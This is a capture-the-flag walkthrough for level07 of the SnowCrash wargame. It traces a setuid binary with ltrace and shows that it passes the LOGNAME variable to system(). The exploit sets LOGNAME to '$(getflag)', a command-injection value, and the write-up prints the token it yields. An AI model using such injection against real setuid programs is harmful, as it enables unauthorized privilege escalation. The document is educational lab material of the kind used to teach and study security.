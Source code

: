 # Level07

# context

after loged in with user `level07` an executeable file apeares in home dir
```
level07@SnowCrash:~$ ls
level07
level07@SnowCrash:~$
```

when run it:
```
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$
```

# steps to repreduce

pass this executeable to `file` command:
```
level07@SnowCrash:~$ file level07
level07: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x26457afa9b557139fa4fd3039236d1bf541611d0, not stripped
level07@SnowCrash:~$
```

as you can see this is a binary file so we can try to reverse it to see it's original source code.
```
level07@SnowCrash:~$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff7a4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                                                            = 2007
geteuid()                                                                                                            = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                                  = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                                                  = 0
getenv("LOGNAME")                                                                                                    = "level07" <==== IMPORTANT LINE
asprintf(0xbffff6f4, 0x8048688, 0xbfffff26, 0xb7e5ee55, 0xb7fed280)                                                  = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 0
+++ exited (status 0) +++
level07@SnowCrash:~$
```


as you can see the source code uses `getenv("LOGNAME")` and this function reads the the environment variable

> The C library function char *getenv(const char *name) searches for the environment string pointed to by name and returns the associated value to the string.

lets see the value of `LOGNAME` in terminal environment:
```
level07@SnowCrash:~$ env
...
LOGNAME=level07
...
level07@SnowCrash:~$
```

so we have an idea of how this program works:
1. read the value of `LOGMANE` environment variable.
2. pass it's value to `system()` function.
3. use `echo` to print it.

so to get the flag and pass this level we can change the value of `LOGMANE` using the command `export` to make the program print the output of command `getflag` and cuz the program will run as it's owner (`flag07`) the flag of this level will be printed

to to this here's payload

1. chnage value of `LOGNAME` to `$(getflag)` COMMAND LINE: `level07@SnowCrash:~$ export LOGNAME='$(getflag)'` 
> when `echo` tries to read `$(getflag)'` it will handle it as command and print the output.
2. check if `env` is updated with the wanted value
```
level07@SnowCrash:~$ env
TERM=xterm-256color
...
LOGNAME=$(getflag)
...
level07@SnowCrash:~$
```
3. run the executeable 
```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```
